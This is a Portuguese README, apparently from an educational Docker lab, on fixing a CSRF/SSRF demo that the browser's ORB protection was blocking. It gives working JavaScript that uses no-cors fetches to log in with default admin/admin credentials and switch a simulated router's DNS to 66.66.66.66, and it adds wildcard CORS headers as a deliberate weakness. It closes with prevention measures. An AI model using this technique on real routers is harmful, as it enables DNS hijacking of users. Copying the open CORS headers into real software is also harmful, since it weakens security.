 # 🔧 Solução para Erro CORS/ORB

## ❌ **Problema Identificado**

```
(failed)net::ERR_BLOCKED_BY_ORB
```

**Causa**: O navegador moderno bloqueia requisições cross-origin devido ao **Opaque Response Blocking (ORB)** - uma proteção de segurança.

## ✅ **Solução Implementada**

### **1. Headers CORS Permissivos**
```php
// Adicionado em admin.php e index.php
header('Access-Control-Allow-Origin: *');
header('Access-Control-Allow-Methods: GET, POST, OPTIONS');
header('Access-Control-Allow-Headers: Content-Type');
```

### **2. Fetch com `mode: 'no-cors'`**
```javascript
// Antes (com erro ORB)
const response = await fetch(`http://${target}/admin.php`, {
    method: 'POST',
    body: formData
});

// Depois (sem erro)
const response = await fetch(`http://${target}/admin.php`, {
    method: 'POST',
    body: formData,
    mode: 'no-cors'  // ✅ Evita CORS
});
```

### **3. API de Status para Verificação**
```javascript
// Nova API para confirmar se ataque funcionou
const statusResponse = await fetch(`http://${target}/api_status.php`);
const status = await statusResponse.json();

if (status.is_compromised) {
    // ✅ Confirmação de comprometimento
}
```

## 🎯 **Como Funciona Agora**

### **Fluxo do Ataque:**

1. **Login CSRF**:
   ```javascript
   // Envia credenciais admin/admin
   await fetch('http://localhost:8181/index.php', {
       method: 'POST',
       body: formData,
       mode: 'no-cors'  // Não consegue ler resposta, mas login funciona
   });
   ```

2. **Alteração DNS**:
   ```javascript
   // Altera DNS para 66.66.66.66/67
   await fetch('http://localhost:8181/admin.php', {
       method: 'POST',
       body: dnsData,
       mode: 'no-cors'  // Não consegue ler resposta, mas alteração funciona
   });
   ```

3. **Verificação**:
   ```javascript
   // Confirma resultado via API
   const status = await fetch('http://localhost:8181/api_status.php');
   // ✅ Consegue ler resposta porque API tem CORS configurado
   ```

## 📊 **Logs Atualizados**

### **Antes (com erro):**
```
❌ ERR_BLOCKED_BY_ORB
❌ Ataque falhou
```

### **Depois (funcionando):**
```
✅ Requisição DNS enviada com sucesso!
📡 DNS Primário alterado para: 66.66.66.66
🔍 Verificando status do dispositivo alvo...
🎉 CONFIRMADO: Dispositivo foi comprometido!
```

## 🧪 **Como Testar**

### **1. Rebuild dos Containers**
```bash
docker-compose down
docker-compose build --no-cache
docker-compose up -d
```

### **2. Verificar Estado Inicial**
- **Status**: http://localhost:8181/api_status.php
- Deve mostrar: `"status": "NORMAL"`

### **3. Executar Ataque**
- **Página maliciosa**: http://localhost/?page=csrf-ssrf-demo
- Clique "🚀 Iniciar Ataque"
- **Não deve mais aparecer erro ORB**

### **4. Confirmar Sucesso**
- **API**: http://localhost:8181/api_status.php
- Deve mostrar: `"status": "COMPROMISED"`
- **Interface**: http://localhost:8181/status.php
- DNS deve estar alterado para 66.66.66.66

## 🔍 **URLs de Verificação**

### **APIs para Monitoramento:**
- **Status JSON**: http://localhost:8181/api_status.php
- **Status Visual**: http://localhost:8181/status.php
- **Painel Admin**: http://localhost:8181/admin.php

### **Teste Manual:**
- **Teste CSRF**: http://localhost:8181/test_attack.html

## 💡 **Explicação Educacional**

### **Por que `mode: 'no-cors'` funciona?**

1. **Sem `no-cors`**: Navegador bloqueia requisição cross-origin
2. **Com `no-cors`**: Navegador permite requisição mas não retorna resposta
3. **Resultado**: Ataque CSRF funciona, mas atacante não vê resposta

### **Isso é realista?**

✅ **SIM!** Ataques CSRF reais funcionam assim:
- Atacante não precisa ver a resposta
- Só precisa que a ação seja executada
- Exemplo: transferência bancária via formulário oculto

### **Como prevenir?**

1. **Tokens CSRF** - Validar origem da requisição
2. **SameSite Cookies** - Restringir cookies cross-origin
3. **CORS restritivo** - Só permitir origens conhecidas
4. **Autenticação forte** - 2FA, etc.

## 🎉 **Resultado Final**

- ✅ **Ataque funciona** sem erros ORB
- ✅ **DNS realmente alterado** para 66.66.66.66/67
- ✅ **Verificação automática** via API
- ✅ **Logs educacionais** explicam o processo
- ✅ **Demonstração realista** de CSRF/SSRF

**Agora a demonstração funciona perfeitamente! 🚀**